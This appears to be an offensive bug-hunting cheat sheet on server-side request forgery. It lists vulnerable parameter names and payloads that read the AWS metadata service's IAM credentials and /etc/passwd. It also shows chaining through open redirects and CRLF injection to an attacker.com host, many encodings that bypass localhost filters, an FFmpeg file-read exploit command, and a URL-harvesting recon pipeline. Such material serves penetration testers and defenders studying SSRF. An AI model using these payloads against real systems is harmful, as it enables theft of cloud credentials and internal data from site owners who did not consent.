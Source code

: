 # SSRF

payload : `www.attacker.com/?`    <-- https://hackerone.com/reports/2442626

Use [[Certbot]] to make our http server to https to allow target website to ping our attacker hosted website.

SSRF via SVG file upload

Spider a domain in burpsuite. Payloads are at down
Search for `url=` `request=` `load=` `redirect=` `fetch=` `page=` `site=` `open=` `entry=` `target=` `Destination=` `Uri=` `file=`

### Blind SSRF

X-Forwarded-Host, X-Forwarded-For, X-HOST etc,

Add this header in the request followed by our attacker URL. 

it will send cookies, internal requests, IP. To our server.

SVG to SSRF `https://github.com/allanlw/svg-cheatsheet`

##### AWS Meta Data Service 
SSRF -> AWS Metadata Service
https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html
`<iframe src="http://169.254.169.254/latest/meta-data/"></iframe>`
`<img src="file:///etc/passwd">`

```
http:// 169.254.169.254/latest/meta—data/
http://169.254.169.254/latest/user-data/
http://169.254.169.254/latest/meta—data/iam/security-credentials/IAM_USER_ROLE_HERE
http://169.254.169.254/latest/meta-data/iam/security-credentialsl/PhotonInstance
```

SSRF to Accessing Cloud Meta Data 

https://gist.github.com/jhaddix/78cece26c91c6263653f31ba453e273b

##### SSRF to LFI 

`file://etc/passwd`

Double Encode URL to avoid black listing ()

---
### URL Schemes to Check 

```
file://
dict://
sftp://
ldap://
ldaps://
ldapi://
tfpt://
gopher://
```

### SSRF to XSS

Host a file in attacker server or any where publicly, give that to make an XSS. (the file will contain XSS payload).

### SSRF to FFMPEG

if any Video upload functionality is there in the website we can exploit this.

https://github.com/neex/ffmpeg-avi-m3u-xbin

`./gen_xbin_avi.py file://<filename> file_read.avi`

## Payloads

```
?dest={target} 
?redirect={target} 
?uri={target} 
?path={target} 
?continue={target} 
?url={target} 
?window={target} 
?next={target} 
?data={target} 
?reference={target} 
?site={target}
?html={target} 
?val={target} 
?validate={target} 
?domain={target} 
?callback={target} 
?return={target} 
?page={target} 
?feed={target} 
?host={target} 
?port={target} 
?to={target} 
?out={target} 
?view={target} 
?dir={target}
```

#### SSRF Chaining

Open redirect to SSRF 
find a file via bruteforce the url parameter  chain with open redirect
```
example.com/ssrf.php?url=/redirect.php?url=//attacker.com
```

SSRF to CRLF:
```
example.com/ssrf.php?url=/test%0d%0aHost:%20attacker.com
```

##### Bypassing localhost restrictions from SSRF

```
https://127.0.0.1/
https://localhost/
http://[::]:80/
http://[::]:25/ 
http://[::]:22/ 
http://[::]:3128/ 
http://[0000::1]:80/
http://[0000::1]:25/ 
http://[0000::1]:22/ 
http://[0000::1]:3128/ 
localtest.me	
localh.st	
spoofed.redacted.oastify.com
company.127.0.0.1.nip.io
http://127.127.127.127
http://127.0.1.3
http://127.0.0.0
http://2130706433/
http://3232235521/
http://3232235777/
http://2852039166/
http://0177.0.0.1/
http://o177.0.0.1/
http://0o177.0.0.1/
http://q177.0.0.1/
http://0/
http://127.1
http://127.0.1
http://① ② ⑦.⓿.⓿.①
```

Bypass using enclosed alphanumerics
https://qaz.wtf/u/convert.cgi

```
http://ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ = example.com

List:
① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩ ⑪ ⑫ ⑬ ⑭ ⑮ ⑯ ⑰ ⑱ ⑲ ⑳ ⑴ ⑵ ⑶ ⑷ ⑸ ⑹ ⑺ ⑻ ⑼ ⑽ ⑾ ⑿ ⒀ ⒁ ⒂ ⒃ ⒄ ⒅ ⒆ ⒇ ⒈ ⒉ ⒊ ⒋ ⒌ ⒍ ⒎ ⒏ ⒐ ⒑ ⒒ ⒓ ⒔ ⒕ ⒖ ⒗ ⒘ ⒙ ⒚ ⒛ ⒜ ⒝ ⒞ ⒟ ⒠ ⒡ ⒢ ⒣ ⒤ ⒥ ⒦ ⒧ ⒨ ⒩ ⒪ ⒫ ⒬ ⒭ ⒮ ⒯ ⒰ ⒱ ⒲ ⒳ ⒴ ⒵ Ⓐ Ⓑ Ⓒ Ⓓ Ⓔ Ⓕ Ⓖ Ⓗ Ⓘ Ⓙ Ⓚ Ⓛ Ⓜ Ⓝ Ⓞ Ⓟ Ⓠ Ⓡ Ⓢ Ⓣ Ⓤ Ⓥ Ⓦ Ⓧ Ⓨ Ⓩ ⓐ ⓑ ⓒ ⓓ ⓔ ⓕ ⓖ ⓗ ⓘ ⓙ ⓚ ⓛ ⓜ ⓝ ⓞ ⓟ ⓠ ⓡ ⓢ ⓣ ⓤ ⓥ ⓦ ⓧ ⓨ ⓩ ⓪ ⓫ ⓬ ⓭ ⓮ ⓯ ⓰ ⓱ ⓲ ⓳ ⓴ ⓵ ⓶ ⓷ ⓸ ⓹ ⓺ ⓻ ⓼ ⓽ ⓾ ⓿
```

 DNS Rebinding

###### From Wayback urls

```
cat all-inscope-domains.txt | waybackurls -dates | grep "https://" | grep "url=" | egrep -v "(.txt|.js|.svg|.jpeg|.jpg|.woff|.woff2|.eot|.css|.png|.ttf|.gif)
```